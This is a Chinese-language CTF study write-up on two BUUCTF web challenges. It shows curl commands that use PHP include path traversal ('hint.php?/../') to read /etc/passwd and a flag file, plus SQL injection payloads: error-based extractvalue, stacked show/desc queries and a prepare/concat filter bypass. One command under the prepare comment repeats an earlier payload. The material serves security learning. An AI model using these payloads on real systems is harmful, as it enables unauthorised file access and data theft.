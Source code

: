 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUCTF Web"
date:   2020-04-18 20:00:38 +0800
---
```


# Problems

最近(2020-04-18)[南邮CTF平台](https://cgctf.nuptsast.com/)登不上去，chrome总提示连接超时.

## [HCTF 2018] WarmUp 1

```shell
url='http://a762a799-746e-4549-beb3-a076fbfd409e.node3.buuoj.cn/'
# 发现注释里有一个source.php 结果是一堆 entity encoding，先用 perl 处理一下
curl $url'source.php' | perl -MHTML::Entities -pe 'decode_entities($_)' > source.php
# 看下是什么编码？
file source.php
# source.php: ISO-8859 text, with very long lines
# 转换一下编码
iconv -f 'ISO-8859-1' -t 'UTF-8' source.php -o source.php
# 改后缀html。这个东西用浏览器打开后看起来像是源代码，但是有很多html标签；用脚本再处理一下，终于能看了
# 源代码的意思大概是包含一个名字和参数file的值相同的文件；
# 本来只能包含白名单source和hint这两个文件，但是这个脚本会截取字符串中"?"之前的内容用来和白名单比较。
cp source.php source.html
./hctf_2018_warm_up_1_strip.py source.html > source.php

# 发现有个hint.php
curl $url'hint.php'
# flag not here, and flag in ffffllllaaaagggg

# 尝试访问 ffffllllaaaagggg 未果
curl $url'ffffllllaaaagggg'
curl $url'source.php?file=ffffllllaaaagggg'
# 不行
```
谷歌说可以给参数插入问号`?`和连续多个父目录`..`，比如PHP会把 `hint.php?/../`之后的内容视为当前目录，这里的原理还没有完全弄清楚；可能源码截取"?"是在提示这个现象的？

```shell
# 因为源码用了REQUEST，参数既可以从查询参数，也可以从表单中取得
curl $url'source.php' -X POST -d 'file=hint.php?/../../../../etc/passwd'
curl $url'source.php?file=hint.php?/../../../../etc/passwd'
# 插入很多个父目录
curl $url'source.php?file=hint.php?/../../../../../ffffllllaaaagggg'
```

```python
# !/usr/bin/python3
# encoding=utf8
# hctf_2018_warm_up_1_strip.py
# Remove html tags
import sys

with open(sys.argv[1], encoding='utf8') as f:
  import re
  content = f.read()
  
  content = re.sub(r'\<span[^>]+\>', '', content)
  content = re.sub(r'\</span>', '', content)
  content = re.sub(r'\<br\s*/\>', '\n', content)
  print(content)
```

## [强网杯 2019]随便注 1

```shell
url="http://91b13641-161f-4df8-9290-e2d26f5c5340.node3.buuoj.cn/?inject="
# 有一个 inject 参数。发现是 PHP
curl $url'1'

# q("1' -- a")
# 带上引号和注释，发现没有报错，原来的SQL应该是 'SELECT * FROM WHERE A=\''.$inject.'\' ... '
curl $url'1%27%20--%20a'

# q("1' order by 3 -- a")
# 报错，表示有2列
curl $url'1%27%20order%20by%203%20--%20a'

# q("9' union select 1,2,3 -- a")
# 不OK。下面的正则表达式表示关键字 select等，以及句号 . 被过滤掉了，大小写不能通过
# return preg_match("/select|update|delete|drop|insert|where|\./i",$inject)
curl $url'9%27%20union%20select%201%2C2%2C3%20--%20a'
# error-based sqli 看用户名 root@localhost，数据库名 supersqli，版本 10.3.18-MariaDB
# q("9' and extractvalue('',concat('~',user(),'~')) -- a")
curl $url'9%27%20and%20extractvalue%28%27%27%2Cconcat%28%27%7E%27%2Cuser%28%29%2C%27%7E%27%29%29%20--%20a'
```

止步于此了，挫折感满满啊'_'。谷歌说可以尝试看下是否可以注入多个SQL语句；另外 select 被过滤了不能用来查DB，但可以尝试 show 和 desc 。事后证明这个题目的源代码使用到了PHP [multi_query](https://zhuanlan.zhihu.com/p/78989602)，

```shell
# 看schema 
# q("1';show databases#")
# 这里也不需要短路，会直接显示所有表
curl $url'1%27%3Bshow%20databases%23'
# 看表
# q("1';show tables#")
# 有两个表，1919810931114514 和 words
curl $url'9%27%3Bshow%20tables%23'
# 看表结构
# q("1'; desc `1919810931114514` #")
# 有两列 flag 和 NO，答案就在这个表 
curl $url'1%27%3B%20desc%20%601919810931114514%60%20%23'
```

但是还是不清楚怎么把答案select出来。谷歌说还有一种叫做**预编译SQL**的操作，简单来说就是在允许执行多个SQL语句的情况下，先prepare拼接sql语句然后execute。谢天谢地没把from以及这几个关键字过滤掉。

```shell
# q("1'; prepare stat from concat('sel', 'ect * from `1919810931114514`'); execute stat;#")
# 有两列 flag 和 NO，答案就在这个表 
curl $url'1%27%3B%20desc%20%601919810931114514%60%20%23'
```

知乎有个[文章](https://zhuanlan.zhihu.com/p/78989602)表示，因为可以执行多个SQL语句，所以可以把答案所在表的名字和列名改成被注入的SQL语句的，让原来的sql语句直接把答案select出来，太厉害了。


# Notes

- php
  - [include](https://www.php.net/manual/en/function.include.php)
    - consecutive `../`s
    - [`'?/../'`](https://stackoverflow.com/q/61288089/8706476)
  - [multi_query](https://zhuanlan.zhihu.com/p/78989602), [store_result](https://www.php.net/manual/en/mysqli.multi-query.php) and [more_results](https://www.php.net/manual/en/mysqli.multi-query.php)
- sql
  - error-based sqli
    - `extractvalue(frag, xpath)` xpath
  - [Prepared statement](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html)
    - prepare; set; execute
  - `show databases/tables` and `desc`
